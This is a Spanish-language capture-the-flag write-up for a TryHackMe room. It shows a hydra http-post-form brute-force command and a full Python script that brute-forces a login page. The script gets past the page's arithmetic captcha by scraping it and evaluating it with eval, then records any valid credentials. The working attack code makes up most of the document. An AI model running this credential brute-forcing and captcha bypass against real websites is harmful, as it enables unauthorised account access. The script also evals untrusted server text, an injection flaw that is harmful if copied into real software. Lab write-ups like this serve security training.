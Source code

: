 Bienveidos a otra sala en tryhackme. En esta ocasion, utilizaremos un script python para hacer fuerza bruta a una pagina web obteniendo las credenciales y pasando por alto la verificacion captcha que tiene como seguridad.

# Brute-Force

Intentamos el metodo conocido con hydra con http-post-form:

`hydra -L usernames.txt -P passwords.txt "http-post-form://IPTARGET/login:username=^USER^&password=^PASS^:Error"`

Pero no tuvimos exito, al intentar varias veces logear en la pagina web, podemos notar que tiene como seguridad establecer un codigo captcha para poder ingresar. Para este caso, utilizamos un script en python para saltear este metodo de seguridad y asi poder hacer fuerza bruta sin que nos limite la tarea el captcha .

```python
import requests
from bs4 import BeautifulSoup

#set some vars
url = 'http://IPTARGET/login'
usernames = open('usernames.txt', 'r')
passwords = open('passwords.txt', 'r')

for username in usernames:
        #don't forget to stip the newline
        username = username.strip('\n')
        passwords.seek(0)
        for password in passwords:
                #get the page to read the captcha
                session = requests.Session()
                response = session.get(url)
                data = {'username': 'username', 'password': 'password'}
                response = session.post(url, data = data)
                soup = BeautifulSoup(response.text, 'html.parser')
                #grab the values 
                captcha_equation = soup.select_one('label[for="usr"] + br').next_sibling.strip()
                result = eval(captcha_equation.split("=")[0])

                password = password.strip('\n')
                data = {'username': username, 'password': password, 'captcha': result}
                response = session.post(url, data = data)
                print("[*] Attempting password: %s for user: %s" % (password, username))
                if 'does not exist' not in response.text:
                        print('[*] found username:' + username)
                        log = open('logs.txt', 'w')
                        if 'Invalid password' not in response.text:
                                print('[*] found password:' + password)
                                log.write(username + ' ' + password)
                                exit()
                        else:
                                print('[*] password invalid')
                else:
                        break
```

Dejaremos trabajar al script y obtendremos ,con tiempo y paciencia, sus credenciales para luego acceder al servidor web y obtener nuestra flag.